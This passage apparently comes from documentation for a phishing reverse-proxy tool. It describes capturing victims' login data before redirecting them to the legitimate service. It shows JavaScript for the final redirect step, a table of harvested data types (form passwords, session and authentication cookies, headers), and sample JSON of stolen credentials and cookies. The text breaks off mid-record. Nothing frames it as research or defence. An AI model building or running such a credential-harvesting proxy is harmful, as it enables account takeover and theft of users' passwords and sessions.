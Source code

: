 #### **Phase 4: Final Redirect**
```javascript
// 7. Redirect to the legitimate service after comprehensive data capture
clientResponse.writeHead(302, { 
    Location: config.credentials.redirectUrl,
    ...config.security.redirectHeaders
});
clientResponse.end();
```

## 📊 What Gets Captured Before Redirect

### **Complete Data Inventory**

| Data Type | Description | Capture Method |
|-----------|-------------|----------------|
| **All Form Data** | Email, password, additional fields | `extractAndLogFormData()` |
| **All Cookies** | Credential, session, authentication | `logAllCookies()` |
| **Request Headers** | Complete request metadata | Session tracking |
| **Response Headers** | Server response metadata | Session tracking |
| **Session State** | Complete session information | Enhanced session management |
| **Timing Data** | Creation, activity, redirect timestamps | Session metadata |
| **Target Service** | Protocol, hostname, path, port | Session initialization |

### **Data Capture Examples**

#### **Form Data Capture**
```javascript
// Before redirect, ALL form fields are captured:
{
    "credentialFields": {
        "user_email": "admin@company.com",
        "user_password": "admin123"
    },
    "allFields": {
        "user_email": "admin@company.com",
        "user_password": "admin123",
        "department": "IT",
        "role": "administrator",
        "remember_me": "true",
        "client_id": "3ce82761-cb43-493f-94bb-fe444b7a0cc4"
    }
}
```

#### **Cookie Analysis**
```javascript
// Before redirect, ALL cookies are analyzed:
{
    "totalCookies": 5,
    "credentialCookies": 2,
    "sessionCookies": 2,
    "otherCookies": 1,
    "allCookies": [
        {
            "name": "sessionId",
            "value": "abc123def456",
            "domain": "example.com",
            "path": "/",
```